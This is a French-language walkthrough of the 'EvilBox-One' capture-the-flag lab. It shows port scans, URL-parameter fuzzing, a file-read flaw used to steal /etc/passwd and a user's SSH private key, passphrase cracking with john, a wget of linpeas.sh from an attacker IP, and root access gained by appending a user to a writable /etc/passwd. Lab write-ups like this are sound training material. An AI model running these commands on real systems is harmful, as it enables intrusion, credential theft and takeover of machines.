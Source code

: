 # EvilBox-One

    sudo nmap -A -p1-10000 192.168.161.212
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.161.212 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.161.212
    feroxbuster -u http://192.168.161.212

Scans classiques. 

Quasiment rien d'intéressant à part un dossier /secret que j'ai décidé d'énumérer également :

    ffuf -u http://192.168.161.212/secret/FUZZ -w  /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -e .php,.php5,.txt,.ini,.conf,.log,.html,.js,.bak,.aspx,.asp -fc 403

On voit qu'il contient un fichier **"evil.php"** mais ce dernier est complètement vide aussi. J'ai bloqué pendant un moment avant de voir, grâce à un indice, qu'il fallait également faire du fuzzing sur les paramètres de l'URL. Cela peut se déduire par élimination. Et il faut bien penser à essayer avec différents types de paramètres pour brosser un maximum de possibilités : du texte, des chiffres, un nom de fichier, etc.

    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=aaaaa -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0
    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=12345 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0
    ...
    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0

Les premières commandes ne donnent rien mais dans la dernière il y a un paramètre **"command"** qui nous sort une page web de taille supérieure à 0. Et en effet, en allant sur la page http://192.168.161.212/secret/evil.php?command=/etc/passwd on voit un contenu de fichier /etc/passwd affiché à l'écran.

En cherchant des utilisateurs qui ont un shell différent de **"/usr/sbin/nologin"** on voit un **"mowree"** et comme le paramètre ne marche pas avec les dossiers je me suis orienté vers la clé SSH. 

En visitant http://192.168.161.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa on tombe bien sur la clé de cet utilisateur. Quand on essaye de se connecter en SSH, un mot de passe est demandé. La seule chose à faire est donc de tenter de casser la passphrase en espérant qu'elle soit assez faible. Et c'est le cas : 

    curl http://192.168.161.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa -o  id_rsa
    ssh2john id_rsa > mowree.txt
    john mowree.txt

Attention à bien passer par la ligne de commande pour éviter les problèmes de format pour les clés.
Connexion au serveur avec la passphrase fraîchement obtenue : 

    chmod 600 id_rsa
    ssh  -l mowree -i  id_rsa 192.168.161.212
    cat local.txt

### Élévation de privilèges : 

LinPEAS a trouvé que le fichier /etc/passwd était accessible en écriture et je peux donc me rajouter comme utilisateur :

    wget http://192.168.45.199/linpeas.sh
    chmod u+x linpeas.sh  
    ./linpeas.sh | tee linpeas.txt
    less -R linpeas.txt
	...
	openssl passwd -1 mdp123
    echo 'tim:$1$32DcXeSt$KWQS4pZ0.TchxHMtQoYCM0:0:0:/root/:/bin/bash' >> /etc/passwd
    su tim
    ls /root
    cat /root/proof.txt

